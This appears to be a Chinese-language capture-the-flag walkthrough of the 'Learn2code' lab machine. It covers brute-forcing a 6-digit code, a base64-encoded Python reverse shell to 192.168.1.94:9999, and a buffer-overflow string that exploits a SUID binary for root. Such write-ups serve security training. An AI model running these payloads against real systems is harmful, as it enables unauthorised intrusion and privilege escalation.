

# Learn2code

扫描端口发现仅开放`80`，进入首页

## 数字爆破


发现是`6位数字`

使用`crunch`生成6位数字字典

```bash
crunch 6 6 -t %%%%%% -o 6_num_dict.txt
```


发现之前能成功后面又失败的数字，说明这个`code`在不断变化，需要尽快输入，爆破`yakit`用起来还是不太好用，我这里使用`burpsuite`


看起来是`python`的报错，反弹shell发现被过滤，使用`base64`编码


```
exec 'aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjE5Mi4xNjguMS45NCIsOTk5OSkpO29zLmR1cDIocy5maWxlbm8oKSwwKTsgb3MuZHVwMihzLmZpbGVubygpLDEpO29zLmR1cDIocy5maWxlbm8oKSwyKTtpbXBvcnQgcHR5OyBwdHkuc3Bhd24oIi9iaW4vc2giKQ=='.decode('base64')
```

记得用`单引号`


## 提权

```bash
$ find / -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/chsh
/usr/bin/mount
/usr/bin/passwd
/usr/bin/su
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/MakeMeLearner
/usr/bin/chfn
```

发现`MakeMeLearner`，因为`home`目录有个`learner`用户


因为需要参数，尝试下载文件，因为有`python`,发现是`python2`，使用命令

```
python2 -m SimpleHTTPServer 8999
```


发现需要`modified`为`0x61626364`，按照wp说的方案是随便写点东西，发现在很长的时候就不是`you got 0x00000000`了，然后再找到一个边界值，最后输入`abcd`就能符合条件，但是长度需要控制，看了下https://www.kayssel.com/post/binary-exploitation-5-smash-the-stack/文章内容很像，暂时没有动态调试的能力，直接以数组长度+`dcba`即可正常溢出

```bash
python3 -c 'print("A"*76 + "dcba")'
```



然后成功后在家目录下又发现一个`elf`文件`MySecretPasswordVault`，同样下载分析，发现类似密码的东西，尝试拼接登录`root`

